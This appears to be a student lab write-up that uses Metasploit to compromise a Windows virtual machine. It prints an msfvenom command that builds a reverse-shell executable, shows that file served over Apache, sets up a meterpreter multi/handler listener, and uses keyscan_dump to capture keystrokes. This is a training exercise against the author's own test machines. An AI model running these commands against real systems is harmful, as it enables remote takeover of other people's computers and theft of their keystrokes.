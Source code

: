 # Compromising-windows-using-Metasploit
Compromising windows using Metasploit
# Metasploit
Compromising windows using Metasploit

# AIM:

To Compromise windows using Metasploit .

## DESIGN STEPS:

### Step 1:

Install kali linux either in partition or virtual box or in live mode

### Step 2:

Investigate on the various categories of tools as follows:

### Step 3:

Open terminal and try execute some kali linux commands

## EXECUTION STEPS AND ITS OUTPUT:

Find the attackers ip address using ifconfig

## OUTPUT:
![alt text](ifconfig.png)

Create a malicious executable file fun.exe using msenom command msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.2 -f exe > fun.exe

## OUTPUT:
![alt text](<VirtualBox_Parrot Security 6.0_19_04_2025_22_11_04.png>)

copy the fun.exe into the apache /var/www/html folder
![alt text](fun.png)

Start apache server sudo systemctl apache2 start
![alt text](Apaches.png)

Check the status of apache2
![alt text](<apache sta.png>)

Invoke msfconsole:
## OUTPUT:
![alt text](msfconsole.png)

Type help or a question mark "?" to see the list of all available commands you can use inside msfconsole.

![alt text](help.png)

Starting a command and control Server
use multi/handler
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST 0.0.0.0
exploit

![alt text](<VirtualBox_Parrot Security 6.0_19_04_2025_22_31_48.png>)


On the target Windows machine, open a Web browser and open this URL, replacing the IP address with the IP address of your Kali machine:
http://192.168.1.2/fun.exe
The file "fun.exe" downloads. 

![alt text](VirtualBox_windows7_20_04_2025_12_42_34.png)


Bypass any warning boxes, double-click the file, and allow it to run.

![alt text](VirtualBox_windows7_20_04_2025_12_43_42.png)

On kali give the command exploit

![alt text](exploit.png)

keyscan_dump	Shows the keystrokes captured so far
![VirtualBox_Parrot Security 6 0_25_05_2025_12_55_07](https://github.com/user-attachments/assets/7e28f1c3-38ba-4a0f-901a-166a3ed2e6c9)





## RESULT:
The Metasploit framework is  used to compromise windows and is examined successfully.
